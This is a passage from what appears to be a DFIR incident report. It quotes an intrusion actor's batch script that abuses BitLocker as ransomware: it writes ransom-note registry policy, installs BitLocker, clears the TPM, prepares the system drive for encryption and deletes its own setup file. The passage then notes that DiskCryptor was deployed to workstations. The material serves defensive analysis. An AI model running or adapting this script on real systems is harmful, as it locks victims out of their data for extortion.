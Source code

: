 ```
REG ADD HKLM\SOFTWARE\Policies\Microsoft\FVE /V RecoveryKeyMessageSource /t REG\_DWORD /d 2 /f
REG ADD HKLM\SOFTWARE\Policies\Microsoft\FVE /v UseTPMPIN /t REG\_DWORD /d 2 /f
REG ADD HKLM\SOFTWARE\Policies\Microsoft\FVE /v RecoveryKeyMessage /t REG\_SZ /d " +-+-+- Your drives are Encrypted! Contact us immediately: REDACTED@onionmail.org -+-+-+" /f
powershell -c "Import-Module ServerManager; ADD-WindowsFeature BitLocker -Restart"
powershell -c "Install-WindowsFeature BitLocker ΓÇôIncludeAllSubFeature -IncludeManagementTools -Restart"
powershell -c "Initialize-Tpm -AllowClear -AllowPhysicalPresence -ErrorAction SilentlyContinue"
powershell -c "Get-Service -Name defragsvc -ErrorAction SilentlyContinue | Set-Service -Status Running -ErrorAction SilentlyContinue"
powershell -c "BdeHdCfg -target $env:SystemDrive shrink -quiet -restart"
sc config eventlog start= auto
cmd /c del "C:\Windows\setup.bat"
cmd /c del "C:\Users\REDACTED\Desktop\setup.bat"
```

Running this script on servers made them inaccessible, and the following BitLocker encryption message was shown when restarted:  

[![Bitlocker](https://thedfirreport.com/wp-content/uploads/2021/11/2c43c4d94e2b7375ec689e5963cd8ca6612ff15fa7b81f3cae6c77c18a94ac44.png "enter image title here")](https://thedfirreport.com/wp-content/uploads/2021/11/2c43c4d94e2b7375ec689e5963cd8ca6612ff15fa7b81f3cae6c77c18a94ac44.png)


A binary called dcrypt.exe, was dropped on a backup server and immediately deleted. While this utility was not executed on any servers in the environment it was deployed to all the workstations.


![](https://thedfirreport.com/wp-content/uploads/2021/11/1-6.png)


The executable used is the [current release](https://github.com/DavidXanatos/DiskCryptor/releases/tag/v1.2.3) of the installer for the utility DiskCryptor.


We are unsure why DiskCrypter was used on workstations but we believe it may have something to do with not all workstation versions supporting BitLocker.


![](https://thedfirreport.com/wp-content/uploads/2021/11/2.png)


<https://en.wikipedia.org/wiki/BitLocker>


Use of this utility on workstations ensures a reliable encryption without the need to develop their own ransomware or get into a ransomware as a service affiliate program.


This executable, however, reminds you on install that it is “beta” software.


![](https://thedfirreport.com/wp-content/uploads/2021/11/1-3.png)


The setup process then works as most windows installers and requires a reboot of the system. During installation a kernel mode driver is added to support the encryption process.

